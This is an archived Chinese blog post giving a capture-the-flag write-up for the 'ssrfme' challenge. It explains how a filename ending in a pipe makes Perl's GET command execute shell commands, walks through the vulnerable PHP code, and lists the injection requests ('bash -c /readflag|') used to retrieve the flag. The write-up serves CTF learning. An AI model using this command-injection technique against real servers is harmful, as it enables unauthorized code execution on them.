








<!--yml
category: 未分类
date: 2022-04-26 14:41:44
-->

# i春秋CTF ssrfme (peal函数中get命令漏洞)命令执行 详细题解＋原理 学习过程_AAAAAAAAAAAA66的博客-CSDN博客

> 来源：[https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121972668](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121972668)

前几天刚做一道命令执行的题目累的够呛，这会刷题又碰见一道，看了很多write up都不有不同的地方，而且这道题的环境和其他平台的环境也有点差异，有些wirte up 复现甚至做不出，最后自己独自去思考时，才发现了很多细节能改进。所以做个总结，梳理一下自己学到的各方面知识。避免大家踩一些不必要的坑，白白浪费时间。

**目录**

[题目](#%E9%A2%98%E7%9B%AE "题目")

[peal函数中get命令漏洞](#peal%E5%87%BD%E6%95%B0%E4%B8%ADget%E5%91%BD%E4%BB%A4%E6%BC%8F%E6%B4%9E "peal函数中get命令漏洞")

[分析](#%E5%88%86%E6%9E%90 "分析")

[重点](#%E9%87%8D%E7%82%B9 "重点")

[题解](#%E9%A2%98%E8%A7%A3 "题解")

[详细过程](#%E8%AF%A6%E7%BB%86%E8%BF%87%E7%A8%8B "详细过程")

[这道题的思考](#%E8%BF%99%E9%81%93%E9%A2%98%E7%9A%84%E6%80%9D%E8%80%83 "这道题的思考")

* * *

# 题目





# peal函数中get命令漏洞

这里参考了一位博主的分析，是我查的write up中写的最详细的，当然用他做的这道题和我们平台上的不一样，但具有参考价值。

[关于BMZCTF hitcon_2017_ssrfme的解法_永远是少年-CSDN博客](https://blog.csdn.net/weixin_40228200/article/details/112481089 "关于BMZCTF hitcon_2017_ssrfme的解法_永远是少年-CSDN博客")

**关于这个漏洞，外国人有文章，是这样写的：
Perl saw that your “file” ended with a “pipe” (vertical
bar) character. So it interpreted the “file” as a command to be executed, and interpreted the command’s output as the “file”'s contents. The command is “who” (which prints information on currently logged-in users). If you execute that command, you will see that the output is exactly what the Perl program gave you.
翻译过来意思是：
perl函数看到要打开的文件名中如果以管道符（键盘上那个竖杠 |）结尾，就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行，并且将命令的执行结果作为这个文件的内容写入。这个命令的执行权限是当前的登录者。如果你执行这个命令，你会看到perl程序运行的结果。**

所以我们可以在 url参数中传入 获取flag文件的命令，被执行后，将flag内容放在我们上传的文件里，我们再打开我们上传的文件就能见到flag了。

# 分析

```
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($sandbox); 
    @chdir($sandbox); 

    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
    $info = pathinfo($_GET["filename"]); 
    $dir  = str_replace(".", "", basename($info["dirname"])); 
    @mkdir($dir); 
    @chdir($dir); 
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 
```

简单的审计一下代码

**$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);**

获取用户的ip，并将 MD5后 orangeip的值作为文件夹名（这里ip要点自己的ip）

## 重点

**$data = shell_exec("GET " . escapeshellarg($_GET["url"]));**

get请求获取 url值，并使用escapeshellarg函数将输入的url转码，。之后**shell_exec**执行（命令执行）被**escapeshellarg转码后的url参数值， 并将命令执行的结果存入data中，在后面的代码中，会将data（也就是这次命令执行的结果）放入我们传入的文件夹中。**

其实到了这里，就可以使用反弹shell的方法来做了，

**escapeshellarg:**
(PHP 4 >= 4.0.3, PHP 5, PHP 7)
把字符串转码为可以在 shell 命令里使用的参数
string escapeshellarg ( string $arg )
escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 exec(), system() 执行运算符
概述：
1.确保用户只传递一个参数给命令
2.用户不能指定更多的参数一个
3.用户不能执行不同的命令

**$info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);**

接下来get请求获取文件名，并使用str_replace过滤 .,  不允许通过../的方式改变文件传输的位置。如果filename有地址，则会把当前目录改变到filename绝对路径下。

**@file_put_contents(basename($info["basename"]), $data);**
最后，把data中的内容（url执行的值）传入到filename中。

# 题解

```
思路
1.先使用 ?url=/&filename=qqq 这里使用 /,作为参数url的值，/在linux里是返回上一级的语法，
这里是为了执行/,获得改服务器根目录。
2.然后 访问/sandbox/md5/qqq 得到文件目录
这里可以看到flag和readflag文件，flag在readflag里面 所以我们得执行readflag文件才能获得flag
构造以下语句
3.?url=&filename=bash -c /readflag| 创建一个文件夹 文件夹名为命令执行语句 内容为空（随便填，不影响）
4.?url=file:bash -c /readflag|&filename=321 通过命令执行，把执行完readflag获得的值存入到321文件
5.访问/sandbox/md5/321 获得flag 
```

# 详细过程

获取MD5值

百度 输入ip得到自己的ip值 ，比ipconfig快，哈哈。



 然后百度搜索MD5加密


 得到MD5值



查看根目录

```
?url=/&filename=qqq
```

```
/sandbox/md5/qqq
```





```
?url=&filename=bash -c /readflag|
```

```
?url=file:bash -c /readflag|&filename=321 
```

这里多了一个问号不要介意（不影响）




得到flag



```
flag{d9faf0e7-6152-48be-8c5c-479c9681bcf3}
```

# 这道题的思考

1.首先这道题url明显是能传参的，为什么不能在url里直接命令执行查看flag，为什么还要利用用GET中的open函数命令执行呢，我在一些write up中也看到了这样的解法（最后都尝试了，最多就获取到一个乱码的文件），都是同一道题，[hitcon 2017]ssrfme，直接传参到url命令执行获取flag。另外，如果每次一定要利用get函数的漏洞的话，那第一步没用利用|管道符，不照样命令执行成功了么。这里怀疑是i春秋网站对命令执行有这防范或者过滤？

2.既然存在命令执行，就可以通过反弹shell的方法获取flag，参考我最近刚写的一道题目，但可能也是因为i春秋网站，对某些命令的过滤导致没做出。（也可能是我菜，哈哈）这里放出我写的过程，欢迎大佬来指正🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻

[i春秋 死亡ping命令 原理学习（命令执行+shell反弹）+复现_AAAAAAAAAAAA66的博客-CSDN博客](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121923964 "i春秋 死亡ping命令 原理学习（命令执行+shell反弹）+复现_AAAAAAAAAAAA66的博客-CSDN博客")

花2分钟找的封面

